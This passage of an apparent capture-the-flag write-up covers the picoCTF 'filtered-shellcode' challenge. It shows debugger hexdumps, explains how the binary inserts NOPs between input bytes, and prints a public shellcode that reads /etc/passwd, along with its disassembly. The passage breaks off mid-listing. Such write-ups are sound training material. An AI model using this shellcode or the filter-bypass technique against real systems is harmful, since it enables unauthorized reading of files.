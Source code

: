 ```
[#1] 0x80486a8 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef>  hexdump byte $eax
0xffffd570     61 62 90 90 63 64 90 90 65 66 90 90 67 68 90 90    ab..cd..ef..gh..
0xffffd580     c3 5d fb f7 28 ac dd f7 14 00 00 00 02 85 04 08    .]..(...........
0xffffd590     e0 65 fb f7 00 50 fb f7 70 d5 ff ff 70 d5 ff ff    .e...P..p...p...
0xffffd5a0     10 00 00 00 10 00 00 00 08 00 00 00 10 00 00 00    ................
```

We can see that after every two bytes of our input, the program inserted two NOPs (0x90). Going back to the code, this makes sense.

Now, suppose we would enter `"mov eax, 17"` as our shellcode:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn asm -f hex "mov eax, 17"
b811000000
```

This would turn to:
```
b81190900000909000
```

Which would be interpreted as:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn disasm "b81190900000909000"
   0:    b8 11 90 90 00           mov    eax,  0x909011
   5:    00                       .byte 0x0
   6:    90                       nop
   7:    90                       nop
```

Not exactly what we wanted. So, our problem is that we can't just enter any shellcode as input. Our easiest workaround would be to work with assembly instructions of exactly two bytes. If we need an instruction of one byte, we can pad it with a NOP. If we need an instruction of more than two bytes, we'll just have to find a way to refactor it to multiple instructions of two bytes.

We want to read the flag, which is usually saved as `"flag.txt"` in the challenge directory. So, we'll use a shellcode to print the contents of a file. 

[Here's](http://shell-storm.org/shellcode/files/shellcode-842.php) a short shellcode to read the contents of `/etc/passwd`:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ pwn disasm "31C9F7E1B00551687373776468632F7061682F2F657489E3CD809391B00331D266BAFF0F42CD809231C0B004B301CD8093CD80"
   0:    31 c9                    xor    ecx,  ecx
   2:    f7 e1                    mul    ecx
   4:    b0 05                    mov    al,  0x5
   6:    51                       push   ecx
   7:    68 73 73 77 64           push   0x64777373
   c:    68 63 2f 70 61           push   0x61702f63
  11:    68 2f 2f 65 74           push   0x74652f2f
  16:    89 e3                    mov    ebx,  esp
  18:    cd 80                    int    0x80
  1a:    93                       xchg   ebx,  eax
  1b:    91                       xchg   ecx,  eax
  1c:    b0 03                    mov    al,  0x3
  1e:    31 d2                    xor    edx,  edx
  20:    66 ba ff 0f              mov    dx,  0xfff
  24:    42                       inc    edx
  25:    cd 80                    int    0x80
```